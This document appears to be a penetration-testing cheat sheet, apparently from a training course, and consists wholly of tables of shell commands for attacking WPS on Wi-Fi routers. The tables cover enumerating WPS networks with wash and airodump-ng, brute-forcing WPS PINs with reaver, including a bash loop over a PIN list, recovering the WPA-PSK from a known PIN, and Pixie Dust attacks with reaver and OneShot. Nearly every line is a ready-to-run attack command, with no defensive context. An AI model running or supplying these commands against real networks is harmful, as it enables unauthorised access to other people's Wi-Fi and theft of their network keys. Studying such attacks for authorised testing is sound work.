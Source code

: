 # WPS Reconnaissance

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `airmon-ng start wlan0`                              | Enable Monitor Mode.            |
| `airodump-ng --wps wlan0mon` | Enumerate available Wi-Fi networks with WPS using airodump-ng. |
| `wash -i wlan0mon` | Enumerate available Wi-Fi networks with WPS using wash.  |
| `wash -j -i wlan0mon` | Enumerate available Wi-Fi networks with WPS using wash with verbose output. |
| `grep -i "84-1B-5E" /var/lib/ieee-data/oui.txt` | Vendor lookup using BSSID. |



# Online PIN Brute-Forcing Attacks

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `iw dev wlan0 interface add mon0 type monitor`<br>`ifconfig mon0 up`  | Add new monitor mode interface.      |
| `reaver -i mon0 -b AE:EB:B0:11:A0:1E -c 1` | WPS PIN Bruteforce using reaver. |
| `reaver -i mon0 -b B2:A5:1D:E1:B2:11 -c 1 -p 1234` |  WPS PIN Bruteforce using half known PIN.  |
| `reaver -b 5A:1A:59:B7:E7:97 -c 1 -i mon0 -p " "` | WPS Null PIN Authentication. |
| `sudo reaver -i mon0 -b 60:38:E0:2A:4F:21 -p 88766197` | Retrieve WPA-PSK using a Known PIN. |
| `wpspin -A 60:38:E0:A2:3D:2A` | WPS pin generation using BSSID. |
| `#!/bin/bash`<br>`PINS='73834410 94229882 73834410'`<br>`for PIN in $PINS`<br>`do`<br>&nbsp;&nbsp;&nbsp;`echo Attempting PIN: $PIN`<br>&nbsp;&nbsp;&nbsp;`sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b 60:38:E0:A2:3D:2A -c 1 -p $PIN`<br>`done`<br>`echo "PIN Guesses Complete"` | Bash script to Bruteforce WPS pins using a PIN list. |



# Offline PIN Brute Forcing Attacks

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `reaver -K 1 -vvv -b 86:FC:9F:5D:67:4E -c 1 -i mon0` | Perform Pixie Dust attack using Reaver. |
| `python3 oneshot.py -b 86:FC:9F:5D:67:4E -i wlan0mon -K` | Perform Pixie Dust attack using OneShot. |




# Misc WPS Attacks
| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `wpa_cli scan_results` | Scan for available WiFi networks. |
| `wpa_cli wps_pbc D8:D6:3D:EB:29:D5` | Connect to WPS wifi network using wpa_cli with PBC method. |
| `python3 /opt/OneShot/oneshot.py -i wlan0mon --pbc` | Connect to WPS wifi network using OneShot with PBC method. |
| `sudo reaver -l 100 -r 3:45 -i wlan0mon -b 60:38:E0:XX:XX:XX` | Bruteforce WPS PIN using reaver with lock delay of 100 seconds and sleep for 45 seconds every 3 pin attempts |